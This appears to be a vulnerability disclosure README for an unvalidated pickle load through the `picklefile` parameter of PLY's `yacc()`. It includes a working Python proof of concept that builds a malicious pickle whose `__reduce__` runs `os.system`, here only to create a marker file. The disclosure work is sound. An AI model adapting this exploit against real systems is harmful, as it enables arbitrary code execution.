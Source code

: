 # 🚨 Undocumented RCE in PLY via `picklefile` Parameter

> 📅 Reported by: **Ahmed Abd**  
> 🗓️ Date: **July 1, 2025**  
> 🐍 Affects: [PLY (Python Lex-Yacc)](http://www.dabeaz.com/ply/)

## 📌 Summary

This repository contains a proof-of-concept demonstrating a critical **Remote Code Execution (RCE)** vulnerability in the [PLY](http://www.dabeaz.com/ply/) library via the undocumented `picklefile` parameter in the `yacc()` function.

The issue arises because `picklefile` allows loading parsing tables from a Python pickle file without any validation. If the file is malicious, it can execute arbitrary code during deserialization.

---

## ⚠️ Vulnerability Details

- **Function Affected:** `ply.yacc.yacc(picklefile=...)`
- **Issue:** Deserializes a pickle file using `pickle.load()` with no validation
- **Impact:** Arbitrary command execution if the attacker can control the `.pkl` file
- **Exposure Risk:** High in environments where pickle files are stored remotely or shared
- **CVE Status:** ⚠️ *Unassigned* (may warrant CVE depending on maintainer response)

---

## 🔬 Proof of Concept

This PoC creates:
- A minimal lexer and parser
- A malicious pickle file that runs a shell command on load

When `yacc(picklefile='exploit.pkl')` is called, it runs the system command to create `/tmp/pwned`.

```python
import pickle
import os
from ply.lex import lex
from ply.yacc import yacc

tokens = ('EXAMPLE',)
def t_EXAMPLE(t):
    r'example'
    return t

def p_sample(p):
    'sample : EXAMPLE'
    pass

class Exploit:
    def __reduce__(self):
        cmd = 'touch /tmp/pwned && echo "VULNERABLE" > /tmp/pwned'
        return (os.system, (cmd,))

malicious_data = {
    '_tabversion': '3.11',
    '_lr_action': {0: {}},
    '_lr_goto': {0: {}},
    '_lr_productions': [
        (None, 0, 0, 0, Exploit())
    ],
    '_lr_method': 'LALR'
}

with open('exploit.pkl', 'wb') as f:
    pickle.dump(malicious_data, f)

parser = yacc(picklefile='exploit.pkl', debug=False, write_tables=False)
parser.parse('example')
